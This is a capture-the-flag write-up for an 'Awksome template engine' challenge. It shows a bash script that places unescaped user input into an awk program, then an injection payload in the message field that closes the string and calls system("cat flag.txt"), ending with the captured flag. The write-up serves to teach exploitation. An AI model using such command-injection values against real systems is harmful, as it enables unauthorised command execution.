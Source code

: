 # Awksome template engine ✉️

### Information:
- tcp://REDACTED:REDACTED
- Localisation du flag `./flag.txt`

I establish a connection and server spit me out the code!

```
#!/usr/bin/bash

cat "${0}"

/usr/games/cowsay -f tux.cow "Bienvenue sur notre engin de génération de courriel !"

echo -n "Pour: "
read -r RECEIVER

echo -n "De: "
read -r SENDER

echo -n "Sujet: "
read -r SUBJECT

echo -n "Contenu: "
read -r MSG

echo -e "Création ...\n\n\n"

read -rd '' PROGRAM << EOF
{ 
  gsub(/:receiver:/,"${RECEIVER}");
  gsub(/:sender:/,"${SENDER}");
  gsub(/:subject:/,"${SUBJECT}");
  gsub(/:msg:/,"${MSG}");
}1
EOF

awk "${PROGRAM}" < template

exit 0
```
Like the Chip_Legend it use `:name:` as a value to template with a variable, but this time with awk


This part is the vulnerable one
```bash
{ 
  gsub(/:receiver:/,"${RECEIVER}");
  gsub(/:sender:/,"${SENDER}");
  gsub(/:subject:/,"${SUBJECT}");
  gsub(/:msg:/,"${MSG}");
}1
```

For a value of `${MSG}` = `"); system("cat flag.txt") #`
The code will become this:

```bash
{ 
  gsub(/:receiver:/,"${RECEIVER}");
  gsub(/:sender:/,"${SENDER}");
  gsub(/:subject:/,"${SUBJECT}");
  gsub(/:msg:/,""); system("cat flag.txt") #);
}1
```


```bash
# ------------------------------------------------------

 _________________________________________
/ Bienvenue sur notre engin de génération \
\ de courriel !                           /
 -----------------------------------------
   \
    \
        .--.
       |o_o |
       |:_/ |
      //   \ \
     (|     | )
    /'\_   _/`\
    \___)=(___/

Pour: 
De: 
Sujet: 
Contenu: "); system("cat flag.txt") #
Création ...
```


`FINCTF-d4082e4816e0a3059e9b7a5bb473f7`
